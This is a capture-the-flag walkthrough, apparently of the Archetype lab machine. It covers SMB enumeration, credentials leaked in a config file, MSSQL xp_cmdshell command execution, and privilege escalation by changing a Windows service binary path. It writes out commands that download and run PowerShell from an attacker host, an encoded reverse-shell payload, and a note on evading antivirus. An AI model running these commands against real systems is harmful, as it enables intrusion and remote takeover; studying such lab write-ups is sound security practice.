

Box author | 

<!--more-->

## Enumeration

- 1000 ports scan
```bash
nmap -sC -sV -oN nmap/initial 10.10.10.27
```


- all ports scan


### Open ports
- 135 (msrpc)
- 139 (smb 4 sure)
- 445 (smb 4 sure)
- 1433 (ms-sql-s/Microsoft SQL Server)

## SMB Enum

### CrackMapEXEC



### smbclient


wow `backups` shares. Let's try connect to it.


- download the file using the `get command`

### prod.dtsConfig
- content of the file

```perl
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
we've got the credentials

- `ARCHETYPE\sql_svc:M3g4c0rp123`

## Foothold/Gaining Access

### mssqlclient.py[Impacket]

- mssqlclient syntax

```bash
mssqlclient.py <UserID>@<IP addr> -windows-auth
```


- always do this after login `enable_xp_cmdshell`
- let's try run `whoami`


- Note: I'm using `xp_cmdshell` then `whoami`

### Nishang


[Nishang](https://github.com/samratashok/nishang) is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming.


- I'm gonna copy the `Invoke-PowerShellTcp.ps1` into my `www` directory. Then, rename it to `rev.ps1`


- Open the `rev.ps1` file and pick one of the example. Then `copy` and `paste` it on the last line of the code.


Make sure! change the ip and port



 _examples_

 <br>_put in here and save it_

- Time to upload the script into the machine by using `mssqlclient.py` that we connected.
	-	I'm gonna run `python server` inside `www` directory.
	-	`python3 -m http.server`
	- Then try to uploaded using this command:
		- `xp_cmdshell powershell IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.16.13:8000/rev.ps1\")`  
	- And this happen

 <br>  _it says this script got blocked by antivirus because of this function_

- So, I change the function into something else. It works.


## User flag


### WinPEAS

- Upload the winpeas binary into the machine
- I'm gonna use `powershell` to know this machine `architecture`
  - by using this command:
    - `(wmic os get OSArchitecture)[2]`


- This machine is 64-bit. I'm gonna upload `WinPEAS 64-bit version` to work.

- I'm gonna `copy` and `paste` the `WinPEAS` binary into my `www` folder.
- Let's upload it by using this command:
    - `IWR http://10.10.16.13:8000/winPEASx64.exe -OutFile winpeas.exe`


- Then run it by using this command `.\winpeas.exe`

## Privilege Escalation

### UsoSvc

- `WinPEAS` just found this juicy stuff:


### Modify service binary path
- According this [link](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)
> If the group "Authenticated users" has *<font color="red">SERVICE\_ALL\_ACCESS</font>* in a service, then it can <font color="yellow">modify the binary</font> that is being executed by the service.

---

### Encoded Command
-  Here is the script before Encoded
```powershell
IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)
```
- Time to encoded
```bash
echo "IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)" | iconv -t utf-16le | base64 -w 0
```
- First, It's gonna encoded into `utf-16le`
- Second, It's gonna encoded into `base64`
- Sources [IppSec](https://youtu.be/iyYqgseKUPM?t=2299)

---

- So, I'm gonna `copy` another `powershell reverse shell` by name it into `zzz.ps1`
- Then upload it using this command:
```powershell
sc.exe config UsoSvc binpath="cmd.exe /c powershell.exe -EncodedCommand SQBFAFgAKABJAFcAUgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA2AC4AMQAzADoAOAAwADAAMAAvAHoAegB6AC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA="
```

- After that, run this command `sc.exe start UsoSvc`


 <br> _we've got the reverse shell and become system!_

## Administrator Flag


## Conclusion
I’ve learned a lot of tools today and `how to do a PowerShell reverse shell`. Ngl, this is a really fun box. I feel like my brain want to explode

I have a fun time doing this machine and I hope you guys too. Bye ;)